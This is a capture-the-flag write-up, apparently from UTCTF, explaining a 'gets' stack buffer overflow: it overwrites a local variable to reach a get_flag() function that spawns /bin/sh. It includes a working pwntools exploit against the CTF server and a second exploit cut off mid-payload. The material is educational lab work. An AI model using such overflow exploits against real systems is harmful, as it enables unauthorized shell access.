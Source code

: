 `gets` is the vulnerability.  The objective is to overflow the input buffer
(`local_78`) to overwrite `local_9` with the character `B` to call
`get_flag()` below.

`local_78` is `0x78` bytes from the base of the stack frame (right above the
return address `main` will jump to on `return`).  To get to `local_9`, just
write `0x78 - 0x9` bytes of garbage followed by `B`, and the flag is yours:

```c  
void get_flag(void)  
{  
 char *local_18;  
 undefined8 local_10;  
  
 local_18 = "/bin/sh";  
 local_10 = 0;  
 execve("/bin/sh",&local_18,(char **)0x0);  
 return;  
}  
```

`get_flag` should really be called `get_shell`, once you have a shell type
`cat flag.txt`.

That's it.

## Exploit(s)

```python  
#!/usr/bin/env python3

from pwn import *

p = remote('pwn.utctf.live', 5000)

payload  = b''  
payload += (0x78 - 0x9) * b'A'  
payload += b'B'

p.sendline(payload)  
p.interactive()  
```

See _Analysis_ above for an explaination.

But, what if there wasn't a check for `B`?  What if this was missing:

```  
 if (local_9 == 'B') {  
   get_flag();  
 }  
```

No problem, we'll just have to call `get_flag` ourselves:  

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA',checksec=False)

if args.REMOTE:  
   p = remote('pwn.utctf.live', 5000)  
else:  
   p = process(binary.path)

payload  = b''  
payload += 0x78 * b'A'  
```